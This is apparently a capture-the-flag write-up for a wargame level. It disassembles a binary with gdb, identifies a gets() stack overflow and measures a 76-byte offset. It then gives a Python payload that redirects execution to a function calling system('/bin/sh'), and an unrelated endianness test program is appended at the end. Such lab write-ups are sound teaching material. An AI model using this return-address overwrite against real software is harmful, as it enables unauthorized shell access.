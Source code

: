 # Level 1

first we check the escutable file we found our binary wait an input and exit the program.

we use gdb to disassemble the main function and that what we got:

```c
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

in the line <+16> they call the [gets](https://linux.die.net/man/3/gets) function.

## Bugs

**Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters getss() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.**

we assume that's a BufferOverFlow vulnerability then we try to give it a long chaine of character, we got a segFault.

```c
(gdb) run
Starting program: /home/user/level1/level1
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppaaaabbbbcccczzzz

Program received signal SIGSEGV, Segmentation fault.
0x7a7a7a7a in ?? ()
(gdb)
```

chr(0x7a7a7a7a) = zzzz

we found that after 76 characters we got a segfault.

Now we need to find a way to redirect the return address to get the bash.

after runing **infos functions** :

```c
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

## **Run Function:**

```c
Dump of assembler code for function run:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18
   0x0804844a <+6>:	mov    eax,ds:0x80497c0
   0x0804844f <+11>:	mov    edx,eax
   0x08048451 <+13>:	mov    eax,0x8048570
   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:	mov    DWORD PTR [esp],eax
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```

in Line <+53> they call system we check the address 0x8048584 and we got: system("/bin/sh")

```
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

now we must use the Run Function address instead of the return address so we use this python program

```python
padding = "A"*76
eip = "\x44\x84\x04\x08"
print padding+eip
```

Here is an example of a C program that can be used to test the endianness of a system:

```c
#include <stdio.h>
#include <stdint.h>

int main() {
  uint32_t value = 0x12345678;
  uint8_t *ptr = (uint8_t *)&value;

  if (*ptr == 0x78) {
    printf("Little-endian\n");
  } else {
    printf("Big-endian\n");
  }

  return 0;
}

```
